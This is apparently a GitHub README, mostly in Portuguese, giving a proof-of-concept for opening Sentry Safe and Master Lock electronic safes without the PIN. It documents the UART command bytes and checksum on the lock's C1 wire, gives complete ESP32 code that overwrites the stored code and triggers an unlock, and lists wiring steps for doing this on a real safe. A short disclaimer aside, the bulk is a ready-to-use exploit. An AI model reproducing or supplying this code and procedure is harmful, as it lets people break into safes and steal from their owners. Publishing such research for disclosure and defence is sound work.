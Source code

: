 # How to open a Sentry Safe or Master Lock electronic safe with ESP32

## ⚠️ Aviso
Este projeto é apenas para **fins educacionais e de pesquisa de segurança**.  
Não use de forma ilegal. Sempre tenha permissão do dono do equipamento.

---

## TL;DR

Uma vulnerabilidade permite abrir cofres eletrônicos da Sentry Safe e Master Lock **sem conhecer o código PIN**.

A fabricante foi notificada mas não respondeu.  
Aqui, adaptamos a prova de conceito para rodar em um **ESP32**.

---

## História

Tudo começou capturando sinais entre a placa do teclado e a placa da fechadura do cofre.  
Descobriu-se que a comunicação usa **UART a 4800 baud** sobre um único fio (C1).

Foi possível mapear os **comandos** enviados e descobrir que é possível **sobrescrever o código** sem saber o código anterior.

---

## Conexão de fios

| Cofre  | ESP32           |
|--------|-----------------|
| GND    | GND             |
| C1     | GPIO 4 (TX)     |

> **Nota:** O fio **C1** é ligado no pino **TX** configurado no código do ESP32.  
> Não é necessário ligar a alimentação do cofre no ESP32 — apenas compartilhar o GND e enviar o sinal no C1.

---

## Comandos conhecidos

| Command byte | Função                       |
|--------------|------------------------------|
| 0x71         | Tentar abrir (try unlock)    |
| 0x75         | Salvar novo código (slot 1)  |
| 0x76         | Salvar novo código (slot 2)  |
| 0x74         | Iniciar mudança de código 1  |
| 0x72         | Iniciar mudança de código 2  |
| 0x78         | Boot                         |

O checksum é calculado como:
checksum = command + a + b + c + d + e

---

## Código ESP32 (Prova de Conceito)

```cpp
#include <Arduino.h>

// Pino TX ligado no fio C1
#define PIN_C1 4

HardwareSerial C1Serial(1);

void send_request(int command, int a, int b, int c, int d, int e) {
  int checksum = (command + a + b + c + d + e);

  // Pulso de wake-up
  pinMode(PIN_C1, OUTPUT);
  digitalWrite(PIN_C1, LOW);
  delayMicroseconds(2750);
  digitalWrite(PIN_C1, HIGH);
  delayMicroseconds(200);

  // Comunicação UART a 4800 baud
  C1Serial.begin(4800, SERIAL_8N1, -1, PIN_C1);
  C1Serial.write((byte)0x00);
  C1Serial.write(command);
  C1Serial.write(a);
  C1Serial.write(b);
  C1Serial.write(c);
  C1Serial.write(d);
  C1Serial.write(e);
  C1Serial.write(checksum);
  C1Serial.flush();
  C1Serial.end();

  // Pino em nível alto no fim
  pinMode(PIN_C1, OUTPUT);
  digitalWrite(PIN_C1, HIGH);
}

void reset_code(int a, int b, int c, int d, int e) {
  send_request(0x75, a, b, c, d, e);
}

void try_code(int a, int b, int c, int d, int e) {
  send_request(0x71, a, b, c, d, e);
}

void setup() {
  // Define novo código 1-2-3-4-5 e tenta abrir
  reset_code(1, 2, 3, 4, 5);
  delay(1000);
  try_code(1, 2, 3, 4, 5);
}

void loop() {}
```
# Como usar
Retire o parafuso frontal do cofre para acessar os fios internos.

Conecte o GND do ESP32 ao fio preto do cofre.

Conecte o GPIO 4 (TX) do ESP32 ao fio C1 (geralmente verde).

Alimente o ESP32 e o código enviará o comando para definir um novo código e abrir o cofre.

